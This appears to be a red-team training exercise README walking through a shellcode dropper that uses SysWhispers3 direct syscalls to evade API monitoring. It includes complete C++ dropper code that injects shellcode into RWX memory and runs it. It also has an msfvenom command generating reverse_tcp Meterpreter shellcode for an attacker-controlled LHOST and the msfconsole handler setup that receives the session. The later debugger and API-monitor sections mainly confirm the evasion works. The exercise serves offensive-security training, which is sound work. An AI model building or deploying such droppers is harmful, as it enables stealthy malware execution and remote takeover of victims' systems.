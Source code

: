 ## Exercise 5: Low_Level_API_Dropper
In this exercise, we will make the second modification to the reference dropper, create the direct syscall dropper, and implement the required syscalls or syscall stub directly into the **Low-Level API shellcode dropper** for short **Low-Level-Dropper**. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 5 tasks:
### Create Low-Level-Dropper 
1. Create necessary code for Low-Level-Dropper with SysWhispers3
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the Low-Level-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ Low-Level-Dropper poc. 
3. Compile the Low-Level-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse Low-Level-Dropper
6. Use the Visual Studio tool **dumpbin** to analyze the compiled Low-Level-Dropper. Is the result what you expected?  
7. Use the tool **API Monitor** to analyze the compiled Low-Level-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the debugger **x64dbg** to analyze the compiled Low-Level-Dropper: from which module and location are the syscalls from the four APIs used being executed? Is the result what you expected? 

## SysWhispers 3
Again, we need to implement the code for the four native APIs we use, but unlike the Medium_Level dropper, we do not load the corresponding syscalls from ntdll.dll. Instead, we want to implement the necessary code directly in our Low-Level-Dropper. Therefore we have to create the corresponding code or files with the tool SysWhispers3 from [**@KlezVirus**](https://twitter.com/KlezVirus). To create the necessary code in context of our Low-Level-Dropper you can use the following command with SysWhispers. Because we work with the MSVC compiler in Visual Studio we choose for the -c parameter msvc. 
<details>
    
**kali>**
```
python syswhispers.py -a x64 -c msvc -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtWaitForSingleObject -o syscalls -v
```
</details>

SysWhispers3 creates for us the three files **syscalls.h**, **syscalls.c** and **syscalls-asm.x64.asm**, which we later implement in our Low-Level-Dropper and which represent the code for the direct syscall implementation. 
<details>
 
<p align="center">
<img width="942" alt="image" src="https://user-images.githubusercontent.com/50073731/235453951-f99fe798-79b9-458e-93af-5d0b3c52a0de.png">
</details>



## Visual Studio
To create the Low-Level-Dropper project, follow the procedure of the High-Level-Dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


In the case of the Low-Level-Dropper, we also need to access the syscalls or syscalls stub from the respective native APIs. Again, we use the same native APIs as in the Medium-Level-Dropper. 
But this time we do not want to run/import the syscalls from ntdll.dll and instead want to implement the functionality directly in the Low-Level-Dropper itself, we have to import the generated files/code from SysWhispers 3 into our Low-Level-Dropper. The syscalls.h provides the structure of the used native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject and the syscalls-asm.x64.asm contains the corresponding syscalls or syscall stubs. This allows the Low-Level-Dropper to execute syscalls directly without the transition from dropper.exe -> kernel32.dll -> ntdll.dll. Practically, we need to implement the generated code with SysWhispers 3 as follows: 

1. Copy all three files we created with SysWhispers 3 into the directory of your Low-Level-Dropper Visual Studio project.
<details>
 
<p align="center">
<img width="697" alt="image" src="https://user-images.githubusercontent.com/50073731/235456064-2b124b99-6936-4a96-a878-2e8dd8cdb460.png">
</details>

    
2. Add the syscalls.h file to your Low-Level-Dropper project as a header file. 
<details>
 
<p align="center">
<img width="1269" alt="image" src="https://user-images.githubusercontent.com/50073731/235456468-ffd08548-6f71-4904-821c-6d88580fa3fb.png">
<img width="599" alt="image" src="https://user-images.githubusercontent.com/50073731/235456549-4385fe3d-4a77-49d7-a153-19e0c5e54cf8.png">
</details>

3. We also need to include the header syscalls.h as a library in our code. 
Customisations.
<details>
 
<p align="center">
<img width="1285" alt="image" src="https://user-images.githubusercontent.com/50073731/235458107-e86178b5-f4f2-4110-a415-d93a08f61373.png">
</details>

4. Add the syscalls-asm.x64.asm file as a resource file. 
<details>
 
<p align="center">
<img width="1268" alt="image" src="https://user-images.githubusercontent.com/50073731/235456751-b44a0786-5225-46d7-9ec3-032a6b8ab36c.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235456831-138e449f-11ae-4cc6-9483-4073eed67c49.png">
</details>

5. Add the file syscall.c as source file
<details>
 
<p align="center">
<img width="1263" alt="image" src="https://user-images.githubusercontent.com/50073731/235457023-473375d1-591d-4479-b47c-2918af056ff2.png">
<img width="598" alt="image" src="https://user-images.githubusercontent.com/50073731/235457085-bf6775f0-c370-4bb0-b883-db99123b06ca.png">
</details>

6. To use the assembly code from the syscalls-asm.x64.asm file in Visual Studio, you must enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build. Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

7. Then we need to set the Item Type of the syscalls-asm.x64.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in our Low-Level-Dropper. 
<details>
 
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    
</details>

Here is the **complete code**, and you can copy and paste this code into your **Low-Level-Dropper** project in Visual Studio.
You can also download the complete **Low-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
    
    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the Low-Level-Dropper.exe.
This result was expected and is correct because our Low-Level-Dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## Low-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
